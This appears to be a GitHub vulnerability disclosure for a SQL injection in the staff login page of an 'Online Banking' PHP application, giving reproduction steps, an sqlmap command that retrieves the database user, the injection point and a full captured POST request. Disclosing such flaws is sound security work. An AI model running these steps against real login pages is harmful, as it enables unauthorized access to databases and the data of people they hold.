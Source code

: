 # Online Banking SQL Injection
* `Description` => sql injection at `staff_login.php`
# Step to Reproduct
* `Staff Login` -> `Staff ID ` -> `Staff Password` -> `Login`
# Exploit
* Input `Staff ID` and `Staff Password` -> `Login`
![image](https://user-images.githubusercontent.com/79050415/159326849-427a43be-5e88-4535-ba60-7d41fe0906f1.png)
* Use Burp Suite capture request 
![image](https://user-images.githubusercontent.com/79050415/159327710-183afd91-1624-4733-88a7-491cca62fa8f.png)
* Then modify the data and save as `sqli.txt`
![image](https://user-images.githubusercontent.com/79050415/159327862-825f0250-9143-46ed-a5cb-c36d5ee29b3d.png)
* Scan `sqli.txt` on `Sqlmap`
```c
python3 sqlmap.py -r sqli.txt --batch --current-user
```
![image](https://user-images.githubusercontent.com/79050415/159328722-52415c05-ed4a-405b-ae9f-919692f58601.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159329104-f6734379-6e0f-4344-a7a9-d4baa41d2e34.png)
* No filter when inserting data to database

# POC
`Injection Point`
```c
staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
* `Request`
```c
POST /Online-Banking/staff_login.php HTTP/1.1
Host: 192.168.1.101:8080
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Online-Banking/staff_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jpkpok9b1tiholm7srir1b6mev
Connection: close

staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
